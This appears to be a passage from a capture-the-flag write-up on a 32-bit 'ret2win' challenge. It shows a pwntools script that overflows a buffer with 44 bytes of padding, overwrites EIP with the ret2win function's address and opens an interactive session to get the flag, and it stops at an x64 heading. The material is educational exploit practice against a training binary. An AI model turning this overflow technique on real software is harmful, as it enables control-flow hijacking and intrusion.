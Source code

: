 ```python
# ===========================================================
#                     EXPLOIT GOES HERE
# ===========================================================

io = start()

# How many bytes to the instruction pointer (EIP)?
padding = 44

payload = flat(
    b'A' * padding,    # Padding up to EIP
    elf.functions.ret2win # Address of ret2win(): 0x0804862c
)

# Write payload to file
write('payload', payload)

# Send payload to target
io.sendlineafter(b'>', payload)

# Get flag
io.interactive()
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Result</p></figcaption></figure>

## x64 Exploitation
